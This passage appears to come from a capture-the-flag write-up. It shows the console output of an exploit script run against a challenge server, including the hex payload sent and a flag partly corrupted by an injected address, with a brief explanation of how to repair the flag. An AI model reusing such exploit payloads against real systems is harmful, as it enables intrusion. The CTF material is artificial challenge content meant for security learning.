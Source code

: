 And using the real target:


```console
$ python solution.py
[+] Opening connection to 18.191.97.64 on port 5045: Done
Ticket sent.
b'Mission Server: Running\r\n'
Sending : 0801deadbeef000100250c0608204001e40c4001bf900c06080e00000040800000400302410801deadbeef000200250c0608204001e40c4001bf880c06080e0000004080000040030241
b'flag{sie\r\n'
b'ACK\r\n'
b'flag{sieC\xef\xf0\x802284quebec:GNJSp4Qk-377do7m_cVDwGLtmrtLbBvBSWLGSJnx7mysPP6Z-aN-8Qx3kuh4hYOHEYHR4UP24hODyEcitDpHpPM}\r\n'
b'ACK\r\n'
```

We can notice our flag is a bit "garbled" since there is an address ``"C\xef\xf0\x80"`` written in it, but it's in a fixed part of the flag (it always starts with "flag{sierra22284quebec:" in our case) so we can correct it and solve the challenge.
